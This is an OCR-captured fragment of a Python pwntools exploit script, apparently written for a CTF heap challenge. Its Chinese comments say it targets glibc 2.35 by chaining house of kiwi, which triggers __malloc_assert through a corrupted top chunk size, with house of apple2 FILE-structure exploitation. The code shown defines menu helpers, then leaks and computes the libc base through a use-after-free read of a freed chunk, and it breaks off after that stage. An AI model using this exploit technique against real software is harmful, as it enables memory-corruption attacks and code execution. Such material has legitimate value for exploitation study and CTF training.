 ```c
edit_index_words = 'Please input the chunk index>'
edit_size_words = 'Please input the size>'
edit_content_words = 'Please input the content>'



def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))

def show(index=-1):
    sh.sendlineafter(choice_words, str(menu_show))
    if show_index_words:
        sh.sendlineafter(show_index_words, str(index))

def edit(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_edit))
    if edit_index_words:
        sh.sendlineafter(edit_index_words, str(index))
    if edit_size_words:
        sh.sendlineafter(edit_size_words, str(size))
    if edit_content_words:
        sh.sendafter(edit_content_words, content)

def calloc(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(2))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

# 本POC基于glibc2.35-0ubuntu3.6_amd64
# 通过house of kiwi触发IO的方式（修改 top chunk size触发__malloc_assert），来调用fxprintf
# 从而进入IO，来打house of apple2
# 提供了一种无需exit、也无需正常退出主函数就能触发IO的方式

# 泄露libc地址并还原
add(index=0, size=0x500, content=b'aa')
add(index=1, size=0x10, content=b'zzz')
delete(index=0)
show(index=0)
libc_leak = u64(sh.recv(6).ljust(8, b'\x00'))
leak_info('libc_leak', libc_leak)
libc.address = libc_leak - 0x21ace0
leak_info('libc.address', libc.address)
add(index=12, size=0x500, content=b'aaa') # 这个chunk比较大，留作备用
```